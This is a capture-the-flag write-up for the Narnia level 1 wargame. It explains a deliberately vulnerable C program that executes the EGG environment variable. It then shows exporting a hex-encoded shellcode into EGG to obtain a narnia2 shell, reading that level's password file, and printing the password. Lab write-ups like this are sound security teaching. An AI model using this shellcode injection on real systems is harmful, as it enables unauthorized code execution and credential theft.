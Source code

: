 For this level, the source code is:
```
#include <stdio.h>

int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```
Let's break down what this code means.
From this code:

    - int (*ret)(); is a function pointer.
    - The program expects an "EGG" environment variable.
    - If "EGG" exists, it assigns its address to ret and attempts to execute it.
    - This indicates that the program is susceptible to shellcode injection through the "EGG" environment variable.


From this, we will likely need to use the environment variable to inject some shellcode. However, before injecting the shellcode into the env variable, we need to find the right architecture and processor the system uses.
```
narnia1@gibson:/narnia$ uname -a
Linux gibson 6.2.0-1012-aws #12~22.04.1-Ubuntu SMP Thu Sep  7 14:01:24 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
narnia1@gibson:/narnia$ arch
x86_64
narnia1@gibson:/narnia$ lscpu
Architecture:            x86_64
  CPU op-mode(s):        32-bit, 64-bit
  Address sizes:         46 bits physical, 48 bits virtual
  Byte Order:            Little Endian
CPU(s):                  2
  On-line CPU(s) list:   0,1
Vendor ID:               GenuineIntel
  Model name:            Intel(R) Xeon(R) Platinum 8175M CPU @ 2.50GHz
```

Now, we can inject a shellcode exploit in the EGG variable like so:
```
narnia1@gibson:/narnia$ export EGG=$(echo -e "\xeb\x11\x5e\x31\xc9\xb1\x21\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x6b\x0c\x59\x9a\x53\x67\x69\x2e\x71\x8a\xe2\x53\x6b\x69\x69\x30\x63\x62\x74\x69\x30\x63\x6a\x6f\x8a\xe4\x53\x52\x54\x8a\xe2\xce\x81")
narnia1@gibson:/narnia$ ./narnia1
Trying to execute EGG!
bash-5.1$ whoami
narnia2
bash-5.1$ cat /etc/narnia_pass/narnia2
Zzb6MIyceT
```

Overall, trying to find the right shellcode took an enormously long amount of time. First of all, I looked into exploitdb for shellcodes that could be injected which none of them worked. Next, I looked into shellstorm and finally was able to access the shell terminal and lookup the password from an elevated permission.
The shellcode which worked: https://shell-storm.org/shellcode/files/shellcode-607.html
